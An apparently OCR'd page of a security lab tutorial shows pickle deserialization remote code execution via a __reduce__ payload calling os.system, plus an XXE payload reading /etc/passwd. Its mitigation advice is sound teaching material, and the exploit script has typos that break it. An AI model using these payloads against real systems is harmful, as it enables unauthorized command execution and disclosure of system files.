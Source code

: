 # Code Execution

To see how pickle can be exploited, open a browser window and go to this url:
`http://192.168.1.101:5000

To view the source code of web, enter the following commands:
`cd Documents/lab/python-Code/vulnerabilities/
`nano pickle_vuln.py

The script below handles _base64-encoded_ pickled input. _Base64_ is an encoding scheme that represents binary data in an ASCII format. The if conditions check whether the user has entered any data in the input field on the website. The _OutputGrabber()_ is a custom class designed for displaying output appropriately.

The script demonstrates that the data is first decoded from _Base64_ and then unpickled using _pickle.loads()_. To exploit this implementation of the pickle module, the payload must first be pickled with _pickle.dump()_ and then encoded to Base64.

A script that serves this purpose can be found in the _/Documents_ directory. To view the contents of this script, please use the following commands:
`cd /home/kali/Documents/lab/
`cat exploit.py
```python
import pickle, sys, base64

DEFAULT_COMMAND = 'whoami'
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickelRce(object):
	def __reduce__(self):
		import os
		return (os.system, (COMMAND, ))

print(base64.b64encode(picke.dumps(PickleRce())))
```
# Pickle Load

The `COMMAND = sys.argv[1]` line is used so that different payloads can be pickled without having to change the script each time.

The '**reduce**' method returns the `(os.system,(COMMAND,))` tuple in which _os.system_ is the callable and COMMAND is the argument passed to the callable.

Lets use an example of the `os` module by using it to show our current user.
`python3 exploit.py whoami

Running the command shown below with pickle the _whoami_ command and output the encoded value in the terminal.
Copy the content between the single quoutes and paste it on the website.
# Pickle Mitigation

Clicking on _Send_ redirects the user to another page where a message indicating the _current user_ is displayed. This outcome demonstrates that all commands passed via _pickle.dumps()_ are executed with root permissions. A malicious actor could exploit this vulnerability to establish a remote connection and execute system commands.

Securing the pickle module is challenging because there is no effective way to escape or sanitize data before unpickling it. Any Python variable or module can be used as the callable, complicating efforts to validate user input effectively

Here are some best practices when working with pickle:

- Never unpickle data from untrusted sources.
- Transmit pickled data only through encrypted network connections to prevent malicious actors from intercepting or altering the information during transit.
- Utilize cryptographic signatures to sign the pickled data, enabling the recipient to verify that the information has not been tampered with..
- Consider switching to safer serialization formats, such as JSON.
# XML External Entity Attacks

_XML External Entity injection (XXE)_ is an attack that exploits weakly configured XML parsers that handle input files containing a reference to an external entity. XML files are favorable to use because of their self-explanatory and well-built construct. The consistency in the construct is achieved via Document Type Definition (DTD) files that contain information about the structure of XML files. The structure is defined using elements and attributes, of which the ENTITY elements are of particular interest. Entities define shortcuts to special characters that can be referenced by the XML file.

The XML file in this case would look like the following:
`<author>John Doe</author>`
### XML Payload

Entity referencing can be either internal or external, depending on whether they are defined inside or outside the _DTD_. When the entities are external, their content is referenced/added in the XML file. It is this content that can be modified to exploit the XML parsers and lead to XXE injections. If leveraged, this attack could lead to data disclosure, server-side request forgery, denial of service, and remote access control, among others.

Copy the XML payload and paste it into the input field of the website:

`<?xml version="1.0"?> <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`

Click on _Send_ to send the payload to the backend server.
